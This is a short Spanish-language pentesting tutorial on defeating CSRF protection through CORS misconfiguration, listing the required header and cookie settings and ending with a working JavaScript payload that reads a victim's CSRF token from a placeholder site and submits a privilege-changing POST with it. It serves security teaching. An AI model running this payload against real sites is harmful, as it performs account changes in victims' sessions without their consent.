 ### Requisitos de implementación

Para poder realizar un baypass de CSRF token mediante CORS necesitamos:

- Que la header Access-Control-Allow-Origin esté seteada en wildcard o que sea reflectiva.
- Que la header Access-Control-Allow-Credentials esté seteada en true.
- Que la cookie tenga el atributo SameSite seteado en None.

### Theory

SI podemos bypassear la SOP mediante faltas de configuración de CORS, podemos acceder a la response que nos da el sitio a la cross-origin request que hicimos.

Esto nos permite crear una request al endpoint que crea los CSRF tokens, leer la response, extraer el token y ponerlo en nuestra nueva cross-origin request.

Dado que todo esto sucede en la sesión de la víctima, el token CSRF es válido incluso si se verifica correctamente y se vincula a la sesión de usuario de la víctima.

Sin embargo, para que el browser de la víctima envíe la cookie de sesión mediante JS requerimos que la cookie tenga de manera explícita el atributo **SameSite** seteado en **None**.

### Explotación

Podemos crear entonces un payload que realice la request en nombre de la víctima, lea la response, extraiga el valor del token para luego meterlo en una nueva request que lleva adelante la acción.

    <script>
    	// GET CSRF token
    	var xhr = new XMLHttpRequest();
        xhr.open('GET', 'https://vulnerablesite.com/profile.php', false);
        xhr.withCredentials = true;
        xhr.send();
        var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
    	var csrftoken = encodeURIComponent(doc.getElementById('csrf').value);
    
    	// do CSRF
        var csrf_req = new XMLHttpRequest();
        var params = `promote=user&csrf=${csrftoken}`;
        csrf_req.open('POST', 'https://vulnerablesite.com/profile.php', false);
    	csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        csrf_req.withCredentials = true;
        csrf_req.send(params);
    </script>
